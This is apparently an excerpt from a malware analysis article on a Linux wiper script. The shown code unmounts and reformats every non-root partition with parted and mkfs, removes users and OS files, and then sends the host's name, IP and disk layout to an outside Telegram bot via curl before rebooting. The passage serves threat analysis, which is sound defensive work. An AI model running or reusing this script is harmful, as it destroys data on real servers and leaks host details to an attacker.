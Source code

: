 end="100%"
for partition in $mounted_partitions
do
  
  if [[ $partition != $root_partition ]]; then
        device_name=`mount | grep $partition |awk '{print $1}'`
        if [[ $device_name == /dev* ]]; then
        echo $device_name
        umount -lv $partition > /dev/null 2>&1
        parted -s $device_name mklabel gpt --  > /dev/null 2>&1 
        
        parted -s $device_name mkpart primary $fs_type $start $end --  > /dev/null 2>&1 
        
        parted -s $device_name ignore-optimization check > /dev/null 2>&1
        partprobe $device_name > /dev/null 2>&1
        # Format the new partition
        mkfs.$fs_type -f ${device_name}  > /dev/null 2>&1 
        fi
  fi
done
}
###############################################################################################
remove_all_users
remove_file_system
send_telegram_message() {
    IFS= read -r -d '' message << EOF
Cleaning process completed on server HOST: $(hostname)
IP: $(hostname -I)
Disk volumes:
$(df -h --output=source,size,target)
EOF
    curl -s --retry 3 --retry-delay 5 -X POST "https://api.telegram.org/bot$telegram_bot_token/sendMessage" \
        -d "chat_id=$telegram_chat_id" \
        -d "text=$message" \
        -H "Content-Type: application/x-www-form-urlencoded"
}
send_telegram_message  > /dev/null 2>&1
remove_os_file
reboot
) &  
 Nicole FishbeinNicole is a malware analyst and reverse engineer. Prior to Intezer she was an embedded researcher in the Israel Defense Forces (IDF) Intelligence Corps. Ryan RobinsonRyan is a security researcher analyzing malware and scripts. Formerly, he was a researcher on Anomali's Threat Research Team. PhishingThreat Escalation: Focusing On What Matters MostGrowth of Autonomous SOC Platform Takes Off in 2023 
Recommended Articles






